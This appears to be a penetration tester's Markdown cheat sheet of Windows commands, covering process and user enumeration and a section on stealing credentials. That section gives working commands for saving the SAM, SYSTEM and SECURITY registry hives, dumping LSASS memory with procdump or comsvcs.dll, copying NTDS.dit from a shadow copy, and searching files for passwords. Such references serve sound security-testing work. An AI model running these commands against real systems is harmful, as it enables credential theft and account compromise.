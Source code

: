 # Windows

## Applications, processes, and services

### Show running processes

```batch title="cmd.exe"
tasklist
tasklist /svc
```

```powershell title="PowerShell"
Get-Process
Get-Process <process> # the name must be exact
```

**External resources:**

- [`tasklist` Docs](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/tasklist)
- [`Get-Process` Docs](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/get-process)

## Users and groups

### Current user security privileges

```batch title="cmd.exe"
whoami /priv
```

### Current user local groups

```batch title="cmd.exe"
net localgroup
```

## Stealing credentials

### Dumping registry hives

```batch title="cmd.exe"
reg save HKLM\sam sam
reg save HKLM\system system
reg save HKLM\security security
```

### Dumping LSASS memory

```batch title="cmd.exe"
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

```batch title="cmd.exe (Cloned Process)"
procdump.exe -accepteula -r -ma lsass.exe lsass.dmp
```

```batch title="cmd.exe (comsvcs.dll)"
.\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 624 C:\temp\lsass.dmp full
```

### Copying NTDS.dit

```powershell title="Create shadow copy and copy NTDS.dit"
vssadmin CREATE SHADOW /For=C:
cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```

## File System

### Find files by content

```batch title="Search for 'password' using findstr"
findstr /sim /c:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml
```

:::info Command explanation

- `/s` searches for matching files in the current directory and all subdirectories
- `/i` makes the search case-insensitive
- `/m` only prints the file names of matching files
- `/c` specifies the string to search for

:::

**External resources:**

- [`findstr` Docs](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/findstr)